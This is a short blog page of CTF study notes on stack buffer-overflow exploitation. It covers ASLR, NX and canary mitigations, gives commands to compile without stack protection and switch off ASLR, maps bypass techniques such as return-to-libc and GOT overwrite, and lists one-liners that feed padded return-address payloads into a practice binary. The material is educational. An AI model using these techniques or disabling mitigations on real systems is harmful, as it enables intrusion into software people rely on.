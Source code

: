 ```yaml
---
layout: default
title: PWN in CTF
---
```


<h2>{{ page.title }}</h2>


0x0 Instruction
---
  PWN in CTF are mostly based on exploring and utilize buffer overflow weaknesses. In order to Pwn the question the well known of stack overflow, stack protection techniques and shellcode are needed.

0X1 Stack overflow
---
Performing the stack overflow attack needs hackers having the deep understanding of the target program, which basicly relys on their reverse engineering techniques. Therefore, it is also platform-related. Different oprating system / CPU architectures requires different RE solution.

Otherwise the article[0] below had a very well explaination for x86_64bit Linux buffer overflow.

0x2 ASLR, Stack Canary, NX or PIE
---
They are all exploit mitigation techniques.

NX Bit makes certain areas of memory non executable. Note that NX Bit is set by gcc.

1.Switch off stack protection:

```
gcc -fno-stack-protector -z execstack
```

If ALSR is on every time executing the program, it will be loaded to different memory address. Note that ALSR is set by the OS. 

1.Check ALSR:
```
cat /proc/sys/kernel/randomize_va_space
```

2.Switch off ALSR:
```
sudo echo 0 > /proc/sys/kernel/randomize_va_space
```
    
0x3 Common procedure
---
1. Detect packer (Usually UPX in Linux)
2. checksec.sh DEP and ALSR
3. Assembly code Analysis (stack structure) in order to set breakpoint in gdb. 
   The breakpoint should be set after the stack is filled.
4. Locate RIP.
5. Write shellcode based on occasions below

```
               +---------------------------------+
               |  Classic stack over flow        |
               |  (execute payload in the stack) |
               +----+---+------------------------+
                 if |   | if
                    |   |
                    |   +--------------------------+
                    |                              |
               +----+---------------+     +--------+---------------+
               |  NX bit            |     |       ALSR             |
               |  ("+z execstack")  |     |  (randomize_va_space)  |
               +--------------------+     +--+---------------------+
               ON   |                        |
          +---------+                        |
          |                                  |
          |                     +--------------------------------------+
+---------------------------+   |  |return+to+plt                      |
|  |return+to+libc          |   |  |brute forcee                       |
|  |chained return+to libc  |   |  |GOT overwrite and GOT dereference  |
+---------------------------+   +--------------------------------------+

```

0x4 Useful commands for uploading payload to stack
---
1. Under cmd :
```
 ./bof $(python -c 'print "A" * 264 + " \x7f\xff\xff\xff\xdc\x90"[:: -1]')
```

2. Under cmd, storing payload in a file:
```
 cat payload.txt | ./bof
```

2. Under cmd, payload is an argument:
```
python -c "print 'A'*64+'\x5b\x84\x04\x08'" |xargs ./bof
```

4. Under gdb :
```
run $(python -c 'print "A" * 264 + " \x7f\xff\xff\xff\xdc\x90"[:: -1]')
```

5. Under gdb, storing payload in a file :
```
run < in.txt
```

0x5 Reference
---
[0]https://www.exploit-db.com/docs/33698.pdf

[1]http://blog.csdn.net/caterpillarous/article/details/51177527

[2]http://www.jianshu.com/p/a659924515f7

[3]https://sploitfun.wordpress.com/2015/

[4]https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/

<h2>{{ page.date | date_to_string }}</h2>
